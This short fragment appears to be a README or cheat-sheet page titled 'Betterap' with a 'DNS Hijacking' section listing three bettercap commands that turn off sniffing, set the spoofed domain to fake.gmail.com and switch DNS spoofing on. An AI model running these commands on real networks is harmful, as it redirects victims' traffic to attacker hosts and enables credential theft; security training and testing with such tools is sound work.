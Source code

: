 # Betterap

# DNS Hijacking

```
net.sniff off
```

```
set dns.spoof.domains fake.gmail.com
```

```
dns.spoof on
```